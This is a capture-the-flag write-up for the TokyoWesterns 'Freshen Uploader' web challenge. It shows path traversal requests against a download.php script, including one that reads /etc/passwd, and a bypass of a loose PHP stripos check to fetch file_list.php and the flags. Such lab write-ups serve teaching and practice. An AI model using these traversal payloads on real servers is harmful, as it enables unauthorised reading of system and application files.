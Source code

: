 # Freshen Uploader

## Problem

In this year, we stopped using Windows so you can't use DOS tricks!

http://fup.chal.ctf.westerns.tokyo/

Flag 1: TWCTF{then_can_y0u_read_file_list?}

Flag 2: TWCTF{php_is_very_secure}


## Flag 1

If you go to the webpage for the challenge you will have a list of files that you can download. 

If you view source you can see that the browser is making a GET request to:
http://fup.chal.ctf.westerns.tokyo/download.php?f= then the name of the file.

The first thing I tried was local file inclusion because you are giving the name of the file you want to download in the GET request. 

http://fup.chal.ctf.westerns.tokyo/download.php?f=../../../../../../etc/passwd

Works!!

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
unscd:x:112:116::/var/lib/unscd:/bin/false
twctf:x:1000:1000:Ubuntu:/home/twctf:/bin/bash
zabbix:x:113:117::/nonexistent:/bin/false
```

After that I had to think what is a file that I know is on the system and can help get the flag, download.php is on the system because they call it. 

http://fup.chal.ctf.westerns.tokyo/download.php?f=download.php

It download a file that was empty, so that didn't work so I figured it was looking for download.php in the wrong directory 

http://fup.chal.ctf.westerns.tokyo/download.php?f=../download.php

Worked!!

```
<?php
// TWCTF{then_can_y0u_read_file_list?}
$filename = $_GET['f'];
if(stripos($filename, 'file_list') != false) die();
header("Content-Type: application/octet-stream");
header("Content-Disposition: attachment; filename='$filename'");
readfile("uploads/$filename");
```

## Flag 2

Flag 1 tells you that the next task is to try to download file_list. Reading the code the only thing that stuck out to me was the if statement 

Stripos will return the location of when it found the first parameter in the second parameter or false if not found
```
stripos('a', 'brandon') = 2

stripos('a', 'apple') = 0

stripos('q', 'apple') = false
```

In PHP, == or != will only compare value and not type, === will compare both value and type 

```
0 == false  = True

0 === false = False

1 == true   = True

1 === true  = Flase 
```
 
We need to get past the if statement in order for us to download the file, to achieve this stripos would have to output 0 or false

In order for stripos to output a 0 file_list would have to be the start of the query


/download?f=file_list 

This query downloads an empty file, that means that it was looking in the wrong directory for file_list and it was not found. 

/download?f=../file_list

This query doesn't download a file because the stripos will return 3 making the script die 

So we know that file_list needs to be at he begining of the file name as well as we have to go to the correct directory

/download?f=file_list/../../file_list.php 

Works!! 

What this is doing is saying look in the file_list directory wait go back a directory so we are back in the orginal location then do back one more directory and grab the file_list.php file

```
<?php
$files = [
  [FALSE, 1, 'test.cpp', 192, '6a92b449761226434f5fce6c8e87295a'],
  [FALSE, 2, 'test.c', 325, '27259bca9edf408829bb749969449550'],
  [TRUE, 3, 'flag_ef02dee64eb575d84ba626a78ad4e0243aeefd19145bc6502efe7018c4085213', 1337, 'flag_ef02dee64eb575d84ba626a78ad4e0243aeefd19145bc6502efe7018c4085213'],
  [FALSE, 4, 'test.py', 94, '951470281beb8a490a941ac73bd10953'],
]; 
```

YAY!! 

If you submit the query

download.php?f=flag_ef02dee64eb575d84ba626a78ad4e0243aeefd19145bc6502efe7018c4085213

```
TWCTF{php_is_very_secure}
```
